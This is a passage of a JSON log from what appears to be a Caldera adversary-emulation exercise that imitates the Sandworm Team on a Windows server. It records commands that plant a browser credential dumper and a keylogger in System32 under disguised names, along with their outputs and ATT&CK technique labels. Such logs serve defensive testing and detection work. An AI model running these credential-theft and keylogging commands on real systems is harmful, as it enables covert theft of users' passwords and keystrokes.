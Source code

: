 ```
1-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"discovery","technique_name":"System Network Connections Discovery","technique_id":"T1049"},"agent_reported_time":"2024-11-12T08:09:32Z"},{"command":"move .\\dumpWebBrowserCreds.exe C:\\Windows\\System32\\oradump.exe","plaintext_command":"move .\\dumpWebBrowserCreds.exe C:\\Windows\\System32\\oradump.exe","delegated_timestamp":"2024-11-12T08:09:37Z","collected_timestamp":"2024-11-12T08:10:34Z","finished_timestamp":"2024-11-12T08:10:34Z","status":1,"platform":"windows","executor":"cmd","pid":1200,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"9a438a2a-c95b-4fd2-a29f-8b1250fc3adc","ability_name":"Sandworm Download Web Credential Dumper","ability_description":"Sandworm downloads web credential dumper oradump.exe to disk.\noradump.exe is a variant of the open source tool, LaZagne.\nIt has been refactored, some functionality removed, and compiled into a portable executable via PyInstaller.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"command-and-control","technique_name":"Ingress Tool Transfer","technique_id":"T1105"},"output":{"stdout":"","stderr":"The system cannot find the file specified.","exit_code":"1"},"agent_reported_time":"2024-11-12T08:10:33Z"},{"command":"C:\\Windows\\System32\\oradump.exe 2>&1","plaintext_command":"C:\\Windows\\System32\\oradump.exe 2>&1","delegated_timestamp":"2024-11-12T08:10:37Z","collected_timestamp":"2024-11-12T08:11:14Z","finished_timestamp":"2024-11-12T08:11:14Z","status":1,"platform":"windows","executor":"cmd","pid":4904,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"1da1b17e-66fd-4f39-bf10-203570a62624","ability_name":"Sandworm Execute Web Credential Dumper","ability_description":"Sandworm executes web credential dumper oradump.exe.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"credential-access","technique_name":"Credentials from Password Stores: Credentials from Web Browsers","technique_id":"T1555.003"},"output":{"stdout":"'C:\\Windows\\System32\\oradump.exe' is not recognized as an internal or external command,operable program or batch file.","stderr":"","exit_code":"1"},"agent_reported_time":"2024-11-12T08:11:14Z"},{"command":"move .\\keylogger.exe C:\\Windows\\System32\\mslog.exe","plaintext_command":"move .\\keylogger.exe C:\\Windows\\System32\\mslog.exe","delegated_timestamp":"2024-11-12T08:11:17Z","collected_timestamp":"2024-11-12T08:12:14Z","finished_timestamp":"2024-11-12T08:12:28Z","status":0,"platform":"windows","executor":"cmd","pid":480,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"ccbb3c07-dc04-46f5-83d3-54fe71deab3c","ability_name":"Sandworm Download Keylogger","ability_description":"Sandworm downloads keylogger to disk.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"command-and-control","technique_name":"Ingress Tool Transfer","technique_id":"T1105"},"output":{"stdout":"        1 file(s) moved.","stderr":"","exit_code":"0"},"agent_reported_time":"2024-11-12T08:12:28Z"},{"command":"exec-background cmd.exe /k \"C:\\Windows\\System32\\mslog.exe -o C:\\Windows\\System32\\mslog.txt\"","plaintext_command":"exec-background cmd.exe /k \"C:\\Windows\\System32\\mslog.exe -o C:\\Windows\\System32\\mslog.txt\"","delegated_timestamp":"2024-11-12T08:12:32Z","collected_timestamp":"2024-11-12T08:12:56Z","finished_timestamp":"2024-11-12T08:12:56Z","status":0,"platform":"windows","executor":"proc","pid":1096,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"1d317399-d786-4c58-889f-01cf496ba5d2","ability_name":"Sandworm Log Keystrokes","ability_description":"Sandworm runs the keylogger in the background to log keystrokes to mslog.txt.\nSandworm Team has used a keylogger to capture keystrokes by using the SetWindowsHookEx function.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"credential-access","technique_name":"Input Capture: Keylogging","technique_id":"T1056.001"},"output":{"stdout":"Executed background process cmd.exe with PID 1096 and args: /k, C:\\Windows\\System32\\mslog.exe -o C:\\Windows\\System32\\mslog.txt","stderr":"","exit_code":"0"},"agent_reported_time":"2024-11-12T08:12:56Z"},{"command":"dir C:\\Windows\\System32\\mslog.txt","pla
```
